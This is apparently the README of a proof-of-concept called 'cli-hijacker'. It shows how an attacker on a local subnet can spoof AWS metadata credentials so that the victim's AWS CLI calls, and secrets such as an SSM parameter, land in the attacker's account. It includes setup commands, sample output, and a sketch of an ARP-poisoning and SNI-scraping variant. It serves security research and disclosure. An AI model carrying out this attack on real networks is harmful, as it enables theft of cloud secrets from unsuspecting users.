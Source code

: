 # cli-hijacker

## Running Attacker VM

```
## Private repo
git clone git@github.com:RyanJarv/cli-hijacker.git vagrant/cli-hijacker
vagrant up
vagrant ssh
```

Then in the vm as root:
```
./scripts/setup.sh
./scripts/run.sh
./scripts/monitor_http.sh
```

## On Your Host

### Conditions

* Using a computer that uses link-local routing
* You don't have a default profile set 
* Are using awscli >= 2.36 

### Testing it

You should see behavior like this:
```
% aws s3 ls                                                                     
Unable to locate credentials. You can configure credentials by running "aws configure".
ryan@Jarvs-MacBook-Pro aws_cli_hijacking % aws sts get-caller-identity                                                   
{
    "UserId": "AIDAQWYJ4KRIICCD42BCI",
    "Account": "048875983952",
    "Arn": "arn:aws:iam::048875983952:user/attacker"
}
% aws s3 ls                  
Unable to locate credentials. You can configure credentials by running "aws configure".
ryan@Jarvs-MacBook-Pro aws_cli_hijacking % aws ssm put-parameter --name /mys3cr3t --value sup3rs3cr3t --type SecureString
{
    "Version": 1,
    "Tier": "Standard"
}
% aws s3 ls                                                                     
Unable to locate credentials. You can configure credentials by running "aws configure".
```

You should find the secret 'sup3rs3cr3t' uploaded to the attackers account at /mys3cr3t.

## Why

The idea is that you can sit on the local subnet and wait for someone, who:

* doesn't have a default profile set, and:
* accidentally forget's to target a specific account, while:
* they are running a vulnerable api call, with:
* aws cli >= 2.36

With these conditions you can control the account the user run's the api call against.

## Prior to 2.36

If aws cli is older then you can do the same thing however it's not as reliable and from the victim's perspective fairly noisy. This is because it was difficult to know what command the user is attempting to run at the point you need to serve the credentials.

What ends up happening in the later case it's easiest to simply respond with the attacker's credentials for every request (or possibly only randomly) and hope it end's up being something useful to you. In any case details of the request, will end up in cloudtrail, and you can gather info that way.

Despite it being difficult to predict the command running I wouldn't rely on simply reverting to pre 2.36 behavior alone. In another PoC I was able to achieve the same thing this one does with the exception of showing a different error message, making this difficult to remain undetected while waiting for the above conditions to be met. This other PoC relied on ARP poisoning the victim, serving expired credentials, scraping SNI, reseting the condition to the client and allowing/disallowing retry attempts based on the scraped SNI. This was a fairly complex approach but a better option may have been to monitor DNS if you are in similar position. In any case it's easy to leak metadata.

## Running The Victim Machine

If you'd rather test this in a VM you can use the [victim](./victim) vagrant configuration. Alternatively this is an example of what happens if the victim doesn't use link local routing but a layer 3 hop upstream does.

### Conditions

* Using a host computer that uses link-local routing

### Running it

```
% cd vagrant
% vagrant up
% vagrant ssh
```

Then in the vm, we can run the same commands shown above and should get the same output:
```
% aws s3 # no creds error
% aws sts get-caller-identity # works
% aws s3 ls # no creds error       
% aws ssm put-parameter --name /mys3cr3t --value sup3rs3cr3t --type SecureString # works
% aws s3 ls # no creds error                                                                     
```
